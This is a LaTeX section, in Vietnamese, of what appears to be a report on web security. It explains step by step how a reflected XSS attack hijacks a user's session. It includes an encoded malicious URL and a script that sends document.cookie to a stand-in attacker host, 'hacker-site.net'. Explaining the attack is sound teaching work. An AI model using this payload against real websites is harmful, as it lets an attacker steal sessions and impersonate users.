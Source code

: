 \documentclass[../main-report.tex]{subfiles}
\begin{document}
\begin{enumerate}
\item Người dùng đăng nhập web và giả sử được gán session với cookie định danh sau:

\begin{lstlisting}
Set-Cookie: sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4
\end{lstlisting}

\item Bằng cách nào đó, hacker gửi được cho người dùng URL:
 
\begin{lstlisting}
http://example.com/name=%3Cscript%3Evar+i%3Dnew+Image%3B+i.src%3D%E2%80%9Dhttp%3A%2F%2Fhacker-site.net%2F%E2%80%9D%2Bdocument.cookie%3B%3C%2Fscript%3E
\end{lstlisting}

Giả sử \textbf{example.com} là website nạn nhân truy cập, \textbf{hacker-site.net} là trang của hacker tạo ra.

\item Nạn nhân truy cập đến URL trên.
\item Server phản hồi cho nạn nhân, kèm với dữ liệu có trong request (đoạn javascript của hacker).
\item Trình duyệt nạn nhân nhận phản hồi và thực thi đoạn javascript. Đoạn javascript mà hacker tạo ra thực tế như sau:

\begin{lstlisting}[language=HTML]
<script>var i=new Image; i.src="http://hacker-site.net/"+document.cookie;</script>
\end{lstlisting}

Dòng lệnh trên bản chất thực hiện request đến site của hacker với tham số là cookie người dùng:

\begin{lstlisting}
GET /sessId=5e2c648fa5ef8d653adeede595dcde6f638639e4e59d4 HTTP/1.1
Host: hacker-site.net
\end{lstlisting}

\item Từ phía site của mình, hacker sẽ bắt được nội dung request trên và coi như session của người dùng đã bị chiếm. Đến lúc này, hacker có thể giả mạo với tư cách nạn nhân và thực hiện mọi quyền trên website mà nạn nhân có.
\end{enumerate}

Kịch bản khai thác trên được mô tả như hình \ref{fig:xss_reflect}.

\begin{figure}[ht!]
\centering\texttt{[image: xss-reflect]}
\caption{Kịch bản khai thác lỗ hổng Reflected XSS}
\label{fig:xss_reflect}
\end{figure}
\end{document}
